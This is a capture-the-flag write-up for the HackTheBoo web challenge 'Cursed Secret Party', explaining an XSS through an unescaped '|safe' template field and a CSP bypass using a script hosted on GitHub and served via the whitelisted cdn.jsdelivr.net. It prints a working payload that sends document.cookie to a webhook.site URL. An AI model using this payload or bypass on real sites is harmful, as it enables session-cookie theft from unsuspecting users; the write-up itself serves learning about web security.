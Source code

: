 # HackTheBoo - Cursed Secret Party

* **Category:** Web
* **Points:** 200
* **Authors:** Xclow3n, Rayhan0x01, Maklaris

## Challenge

> You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

## Solution

![image](https://user-images.githubusercontent.com/78451563/198380053-3137cbf4-09b1-4b9b-84e4-7d3a6e3e13c2.png)

* This looks like a typical xss challenge where we steal the admin's cookie via xss
* The template tag `{{ request.halloween_name |safe }}` is susceptible to xss as `| safe` filter indicates that the value is known to be safe and therefore does not need to be escaped thus returns unescaped HTML to the client.

```node
// ./challenge/index.js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        `script-src 'self' https://cdn.jsdelivr.net ;
        style-src 'self' https://fonts.googleapis.com;
        img-src 'self';
        font-src 'self' https://fonts.gstatic.com;
        child-src 'self';
        frame-src 'self';
        worker-src 'self';
        frame-ancestors 'self';
        form-action 'self';
        base-uri 'self';
        manifest-src 'self'`
    );
    next();
});
```

![image](https://user-images.githubusercontent.com/78451563/198380965-2bd68456-89fb-4457-80b3-3e4130d4aea7.png)

*We are hinted that the challenge will involve something todo with CSP from the name (Cursed Secret Party)(CSP)*
* We can do a quick evaluation of how secure the CSP is using:
[CSP Evaulator](https://csp-evaluator.withgoogle.com/)
* The results show that `script-src` is problematic as the host whitelists can frequently be bypassed and `cdn.jsdelivr.net is known to host JSONP endpoints and Angular libraries which allow to bypass this CSP.`

### Bypassing CSP
```js
//Payload
fetch('https://webhook.site/951a8069-3beb-48d5-a21f-99d73d3c95c7', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
```
```
https://github.com/0xEspxrance/CTF-Writeups/blob/main/HackTheBoo/web/xss_poc.js
--> https://www.jsdelivr.com/github -->
https://cdn.jsdelivr.net/gh/0xEspxrance/CTF-Writeups@main/HackTheBoo/web/xss_poc.js
```
![image](https://user-images.githubusercontent.com/78451563/198390669-80770140-5c04-41fa-b236-6df60c761c3a.png)


* We can upload a js file onto our github and convert to a jsdeliver package using [this](https://www.jsdelivr.com/package/npm/csp-bypass) which will bypass CSP as `https://cdn.jsdelivr.net` is whitelisted.
* Then send the payload in the field `halloween_name`

![image](https://user-images.githubusercontent.com/78451563/198391082-7ad9405a-ab45-42a3-88b2-85a7ce0dae10.png)


```
Flag: HTB{cdn_c4n_byp4ss_c5p!!}
```
